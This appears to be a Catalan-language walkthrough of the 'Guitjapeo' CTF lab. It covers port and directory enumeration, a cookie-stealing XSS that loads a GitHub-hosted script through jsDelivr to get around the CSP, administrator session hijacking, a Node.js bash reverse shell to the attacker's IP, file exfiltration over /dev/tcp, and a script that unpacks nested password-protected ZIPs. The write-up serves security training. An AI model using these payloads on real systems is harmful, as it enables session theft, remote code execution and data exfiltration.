








CTF on programarem, aprendrem sobre git i ens crearem un compte a GitHub.



Espero que sigui del vostre gust.

## Taula de continguts

## Enumeració

```bash
└─$ nmap -p- -n -Pn 192.168.1.173                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 04:09 CEST
Nmap scan report for 192.168.1.173
Host is up (0.00048s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 4.13 seconds
```

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ sudo nmap -p22,80,443 -sCV -T4 -n -Pn 192.168.1.173 -o nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 04:13 CEST
Nmap scan report for 192.168.1.173
Host is up (0.00070s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 ae:f7:30:5e:e8:28:bb:0e:cd:8e:5e:9c:33:f0:0a:cd (ECDSA)
|_  256 04:50:bf:6f:21:23:ba:3a:c0:d2:89:d3:19:60:b1:03 (ED25519)
80/tcp  open  http     nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
443/tcp open  ssl/http nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-title: Animació Personalitzada
| ssl-cert: Subject: commonName=guitjapeo.thl/organizationName=Company/stateOrProvinceName=State/countryName=US
| Not valid before: 2024-09-21T01:00:07
|_Not valid after:  2025-09-21T01:00:07
MAC Address: 08:00:27:B3:F9:E1 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```

Hem trobat un servei web amb el domini `guitjapeo.thl`, l'hem afegit al fitxer hosts i intentem accedir-hi, el virtualhost per defecte i els virtualhost al port 80 ens redirigeixen a `https://guitjapeo.thl` al port 443 amb un certificat auto-signat.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ sudo nano /etc/hosts                                           
                                                                                                              
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
192.168.1.173   guitjapeo.thl
```



Escanejem aquest lloc web.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://guitjapeo.thl -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://guitjapeo.thl
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 808]
/register             (Status: 200) [Size: 795]
/css                  (Status: 301) [Size: 153] [--> /css/]
/Login                (Status: 200) [Size: 808]
/js                   (Status: 301) [Size: 152] [--> /js/]
/messages             (Status: 302) [Size: 28] [--> /login]
/logout               (Status: 302) [Size: 28] [--> /login]
/Register             (Status: 200) [Size: 795]
/Logout               (Status: 302) [Size: 28] [--> /login]
/Messages             (Status: 302) [Size: 28] [--> /login]
/LogIn                (Status: 200) [Size: 808]
/LOGIN                (Status: 200) [Size: 808]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
```

## Enumeració 2

Entrem a `https://guitjapeo.thl/register` i creem un usuari.



i validem el nostre usuari a `https://guitjapeo.thl/login`. Aconseguirem entrar a `https://guitjapeo.thl/messages`.



Veiem que hi ha una mena d'API on s'envien els missatges i es llegeix el llistat d'usuaris entre altres coses, seguim buscant amb gobuster a la ruta de l'API.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://guitjapeo.thl/api -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://guitjapeo.thl/api
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/info                 (Status: 200) [Size: 188]
/users                (Status: 302) [Size: 28] [--> /login]
/messages             (Status: 302) [Size: 28] [--> /login]
/Info                 (Status: 200) [Size: 188]
/Users                (Status: 302) [Size: 28] [--> /login]
/command              (Status: 302) [Size: 28] [--> /login]
/Command              (Status: 302) [Size: 28] [--> /login]
/Messages             (Status: 302) [Size: 28] [--> /login]
/INFO                 (Status: 200) [Size: 188]
Progress: 77150 / 220560 (34.98%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 77299 / 220560 (35.05%)
===============================================================
Finished
===============================================================
```

Hem trobat altres endpoints interessants, visitem l'endpoint /api/info i ens retorna un json amb les capçaleres.


## Segrest de galetes

Al formulari de missatges podem enviar una URL, sembla que al desplegable podem seleccionar a l'usuari que volem enviar un missatge. Apareixen tots els usuaris creats per nosaltres i l'usuari "Administrador", intentem enviar una URL a l'administrador per veure si la visita i podem capturar la galeta.

Fem una primera comprovació enviant una URL amb la IP de la nostra màquina i un servei http amb python.



Sembla que l'usuari "Administrador" està visitant tots els enllaços que se li envien per l'aplicació. Si intentem llegir la galeta de sessió no podrem perquè té configurat "HttpOnly" això impedeix llegir la galeta des del navegador, només és possible llegir-la des de la banda del servidor.


Això té solució si utilitzem l'endpoint `/api/info` que ens permet llegir les capçaleres, inclosa la de les galetes.

### XSS

Per poder segrestar la galeta primer hem de poder llegir-la, per això necessitem un XSS que trobem a la pàgina principal. Però té configurades unes capçaleres de Content Security Policy (CSP) que dificulten la tasca.

```
Content-Security-Policy: default-src 'self' 'unsafe-inline';script-src 'self' https://cdn.jsdelivr.net;style-src 'self' https://fonts.googleapis.com;font-src 'self' https://fonts.gstatic.com;img-src 'self';object-src 'none';frame-src 'none';connect-src 'self';upgrade-insecure-requests;base-uri 'self';form-action 'self';frame-ancestors 'self';script-src-attr 'none'
```

Primer realitzem proves per intentar llegir la nostra pròpia galeta. Com podem veure a la capçalera de les CSP es poden carregar script des del domini `https://cdn.jsdelivr.net`, això ens permet carregar script des del nostre repositori de GitHub mitjançant el següent format d'URL:

```
https://cdn.jsdelivr.net/gh/{USUARI_GITHUB}/{REPOSITORI}@{BRANCA}/{RUTA_FITXER}
```

Ens creem un compte de GitHub si encara no el tenim, creem un repositori i afegim el següent fitxer javascript, substitueix la IP per la de la teva màquina atacant.

```javascript
// cookies.js
var req = new XMLHttpRequest();
req.onload=reqListener;
var url="https://guitjapeo.thl/api/info";
req.withCredentials=true;
req.open("GET",url,false);
req.send();
function reqListener() {
    const sess=JSON.parse(this.responseText).cookie;
    location.href="http://192.168.1.116/?data="+btoa(sess);
};
```

El meu usuari GitHub és `Len4m`, el repositori que he creat és `temp` i la branca `main`, així que la URL del meu script a través del CDN de jsdelivr és.

```url
https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js
```

Ens posem a escoltar amb un servei http al port 80 a la nostra màquina atacant, després introduïm al formulari "Contingut animació" de la pàgina principal el següent codi i l'enviem

```<script src="https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js"></script>```

Aconseguim obtenir la nostra pròpia galeta de sessió.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.116 - - [21/Sep/2024 05:19:40] "GET /?data=Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== HTTP/1.1" 200 -

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== | base64 -d
connect.sid=s%3ABCzPIFeotC4bPB2tk6JDDedHQvS_vpmZ.0bWOm47IQ60F7S%2BvLLLUC3dipyLPgJT6qYgLNApmyso
```

### Obtenir sessió Administrador

Amb el que hem preparat ara podem enviar un missatge a l'usuari Administrador amb una URL que carregui el nostre script, una mica d'explicació:

- Enviem missatge a l'administrador amb la URL maliciosa.
- L'administrador fa clic i carrega la URL al seu navegador.
- La URL carrega el nostre script de GitHub.
- El nostre script connecta amb l'endpoint /api/info per obtenir la galeta de sessió.
- El script redirecciona el navegador de l'Administrador a la nostra màquina atacant enviant un paràmetre data amb les galetes de l'Administrador codificada en base64.

Ens posem a escoltar a la nostra màquina atacant.

```
python3 -m http.server 80
```

Enviem un missatge a l'administrador amb la següent URL...

```
https://guitjapeo.thl/?text=%3Cscript%20src%3D%22https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FLen4m%2Ftemp%40main%2Fcookies.js%22%3E%3C%2Fscript%3E
```

... i esperem que faci clic per rebre la seva galeta de sessió.



Descodifiquem el base64 i afegim les dades de la sessió a la nostra sessió des del navegador.

```
┌──(kali㉿kali)-[~]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQTlhNU5rN1U4MjJqSjhzVHZaMG1kXzE3ek1kWVpSaFNLLld0bnZQeDFkV0xLTHY0bE9yNk9FUzFlMHdiNG9zVyUyRjAwOWs2QXVscVo1bw== | base64 -d
connect.sid=s%3A9a5Nk7U822jJ8sTvZ0md_17zMdYZRhSK.WtnvPx1dWLKLv4lOr6OES1e0wb4osW%2F009k6AulqZ5o 
```
Actualitzem la pàgina després de modificar la galeta i ja som l'usuari Administrador.


## RCE

Ara com a administrador tenim accés a un altre endpoint `https://guitjapeo.thl/api/command/?cmd=clearUsers()`, sembla que podem enviar comandes amb javascript, així que preparem un netcat escoltant al port 12345 i carreguem la següent URL al navegador o mitjançant curl amb la galeta de l'usuari Administrador.

```bash
nc -lvnp 12345
```

Codifiquem l'URL amb el següent javascript

```javascript
require('child_process').exec('bash -c "/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"')
```

i l'afegim a la URL com

```
https://guitjapeo

.thl/api/command/?cmd=require%28%27child_process%27%29.exec%28%27bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.116%2F12345%200%3E%261%22%27%29
```



Obtenim un shell amb l'usuari lenam.

## Escalada privilegis

Tractem la tty i mirem què obtenim a la carpeta de l'aplicació i quins usuaris hi ha. 
Sembla fàcil ja que només hi ha l'usuari root.

```bash
lenam@guitjapeo:~/.local/bin/web$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
lenam:x:1000:1000:,,,:/home/lenam:/bin/bash
lenam@guitjapeo:~/.local/bin/web$ ls -la
total 160
drwxr-xr-x   7 lenam lenam   4096 Sep 20 23:48 .
drwxr-xr-x   3 lenam lenam   4096 Sep 20 18:55 ..
-rw-r--r--   1 lenam lenam   2009 Sep 20 23:50 administrador.js
drwxr-xr-x   8 lenam lenam   4096 Sep 20 19:41 .git
-rw-r--r--   1 lenam lenam     13 Sep 20 19:39 .gitignore
-rw-r--r--   1 lenam lenam   5146 Sep 20 21:06 index.js
drwx------   8 lenam lenam   4096 Sep 21 00:30 isolated-data
drwxr-xr-x 224 lenam lenam  12288 Sep 20 19:38 node_modules
-rw-r--r--   1 lenam lenam    314 Sep 20 18:56 package.json
-rw-r--r--   1 lenam lenam 103530 Sep 20 19:38 package-lock.json
drwxr-xr-x   4 lenam lenam   4096 Sep 20 18:56 public
drwxr-xr-x   2 lenam lenam   4096 Sep 20 18:56 views
lenam@guitjapeo:~/.local/bin/web$ sudo -l
[sudo] password for lenam: 
```

L'usuari lenam pot executar alguna cosa amb sudo però no tenim la seva contrasenya.

### Git History

Troben una carpeta .git, busquem si hi ha alguna cosa en l'historial del repositori.

```bash
git log --name-only --oneline
```



Troben dos fitxers `archivo.zip` i `password.txt` que no estan a la carpeta de l'aplicació, els intentem recuperar.

```bash
lenam@guitjapeo:~/.local/bin/web$ git checkout ecdef85 -- archivo.zip password.txt
lenam@guitjapeo:~/.local/bin/web$ ls -l
total 192
-rw-r--r--   1 lenam lenam   2009 Sep 20 23:50 administrador.js
-rw-r--r--   1 lenam lenam  43766 Sep 21 00:38 archivo.zip
-rw-r--r--   1 lenam lenam   5146 Sep 20 21:06 index.js
drwx------   8 lenam lenam   4096 Sep 21 00:38 isolated-data
drwxr-xr-x 224 lenam lenam  12288 Sep 20 19:38 node_modules
-rw-r--r--   1 lenam lenam    314 Sep 20 18:56 package.json
-rw-r--r--   1 lenam lenam 103530 Sep 20 19:38 package-lock.json
-rw-r--r--   1 lenam lenam    157 Sep 21 00:38 password.txt
drwxr-xr-x   4 lenam lenam   4096 Sep 20 18:56 public
drwxr-xr-x   2 lenam lenam   4096 Sep 20 18:56 views
lenam@guitjapeo:~/.local/bin/web$ cat password.txt 
# Este script está escrit en Python
def obtener_contraseña():
    return ''.join([chr(ord(c) + 1) for c in '  ..lmruuuC^'])

print(obtener_contraseña())
```

### Fichero ZIP

Ens portem a la nostra màquina atacant els fitxers trobats a l'historial de git `archivo.zip` i `password.txt`.

A la nostra màquina atacant

```bash
nc -lvnp 2121 > archivo.zip
```

i a la màquina víctima dins de la carpeta on estan els fitxers  `archivo.zip` i `password.txt`.

```bash
cat archivo.zip > /dev/tcp/192.168.1.116/2121
```

Realitzem el mateix per al fitxer `password.txt`.

El fitxer password.txt conté una programació en python que retorna una contrasenya.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python password.txt    
!!//mnsvvvD_
```

Amb aquesta contrasenya podem descomprimir el fitxer ZIP que està protegit amb contrasenya, dins d'aquest fitxer trobem altres 2 fitxers `archivo.zip` i `password.txt`.

El nou fitxer ZIP segueix estant protegit per contrasenya i al fitxer password.txt en aquesta ocasió hi ha una programació en ruby.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo/extract]
└─$ ls
archivo.zip  password.txt

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo/extract]
└─$ cat password.txt 
# Este script está escrit en Ruby
def obtener_contraseña
  password = 'c\\2.8\\R;"Kgn'.chars.map { |c| (c.ord + 1).chr }.join
  return password
end

puts obtener_contraseña
```

Instal·lem ruby si no el tenim instal·lat i executem el fitxer password.txt en aquesta ocasió amb ruby, ens apareix una contrasenya que ens permet descomprimir el següent fitxer archivo.zip, on tornem a trobar un fitxer password.txt amb una programació en javascript que ens retorna una contrasenya que ens permet descomprimir el següent ZIP, això continua de forma encadenada, un fitxer zip dins d'un altre zip amb la seva contrasenya amb una programació en un llenguatge de script diferent.

Hem detectat que hi ha programacions en `Python`, `JavaScript`, `Ruby` i `PHP`, instal·lem el necessari per poder executar aquests llenguatges de script al nostre ordinador. En cada fitxer `password.txt` hi ha un comentari a la primera línia que indica el tipus de programació.

També detectem que la profunditat és molt llarga i ens portaria molt de temps fer això de forma manual, així que preparem un script en Python amb ajuda de ChatGPT i modificacions manuals per descomprimir tots els fitxers encadenats, executant cada programació de cada fitxer `password.txt` per obtenir la contrasenya i descomprimir el següent fitxer.

```python
import pyzipper
import subprocess
import os
import sys
import shutil

def execute_script(script_path):
    # Llegir el primer comentari per identificar el llenguatge
    with open(script_path, 'r', encoding='utf-8') as f:
        first_line = f.readline().strip()
        script_content = f.read()

    if 'Python' in first_line:
        # Executar el script en Python
        result = subprocess.run(['python', script_path], capture_output=True, text=True)
    elif 'JavaScript' in first_line:
        # Executar el script en JavaScript usant Node.js
        result = subprocess.run(['node', script_path], capture_output=True, text=True)
    elif 'Ruby' in first_line:
        # Executar el script en Ruby
        result = subprocess.run(['ruby', script_path], capture_output=True, text=True

)
    elif 'PHP' in first_line:
        # Executar el script en PHP
        result = subprocess.run(['php', script_path], capture_output=True, text=True)
    else:
        print(f"No es reconeix el llenguatge del script a {script_path}")
        sys.exit(1)

    if result.returncode != 0:
        print(f"Error al executar el script {script_path}:")
        print(result.stderr)
        sys.exit(1)

    # La contrasenya és la sortida del script
    password = result.stdout.strip()
    return password

def extract_zip(zip_path, password, extract_to):
    try:
        with pyzipper.AESZipFile(zip_path, 'r') as zf:
            zf.pwd = password.encode('utf-8')
            zf.extractall(path=extract_to)
    except RuntimeError as e:
        print(f"Error al extreure {zip_path}: {e}")
        sys.exit(1)
    except pyzipper.zipfile.BadZipFile as e:
        print(f"Arxiu ZIP corrupte: {zip_path}")
        sys.exit(1)

def automate_extraction(initial_zip, initial_password):
    current_zip = initial_zip
    current_password = initial_password
    level = 1

    # Crear un directori temporal per a l'extracció
    temp_dir = 'temp_extraction'
    if os.path.exists(temp_dir):
        shutil.rmtree(temp_dir)
    os.makedirs(temp_dir)

    while True:
        print(f"\nNivell {level}:")
        extract_to = os.path.join(temp_dir, f'level_{level}')
        os.makedirs(extract_to, exist_ok=True)

        # Extreure l'arxiu ZIP
        extract_zip(current_zip, current_password, extract_to)

        # Verificar si hi ha un arxiu 'archivo.zip' dins
        next_zip_path = os.path.join(extract_to, 'archivo.zip')
        password_txt_path = os.path.join(extract_to, 'password.txt')

        if not os.path.exists(password_txt_path):
            print("No s'ha trobat 'password.txt'. Procés finalitzat.")
            break

        if not os.path.exists(next_zip_path):
            # Últim nivell assolit
            print(f"Últim nivell assolit al nivell {level}.")
            with open(password_txt_path, 'r', encoding='utf-8') as f:
                content = f.read()
            print("\nContingut de l'últim 'password.txt':")
            print(content)
            break

        # Executar el script a 'password.txt' per obtenir la següent contrasenya
        next_password = execute_script(password_txt_path)
        print(f"Contrasenya obtinguda: {next_password}")

        # Preparar per al següent nivell
        current_zip = next_zip_path
        current_password = next_password
        level += 1

    # Opcional: eliminar el directori temporal
    shutil.rmtree(temp_dir)
    print("\nProcés completat.")

if __name__ == "__main__":
    # Sol·licitar la contrasenya inicial a l'usuari
    initial_password = input("Introdueix la contrasenya inicial per a 'archivo.zip': ").strip()
    initial_zip = 'archivo.zip'

    if not os.path.exists(initial_zip):
        print(f"No s'ha trobat '{initial_zip}' al directori actual.")
        sys.exit(1)

    # Executar l'extracció automàtica
    automate_extraction(initial_zip, initial_password)
```

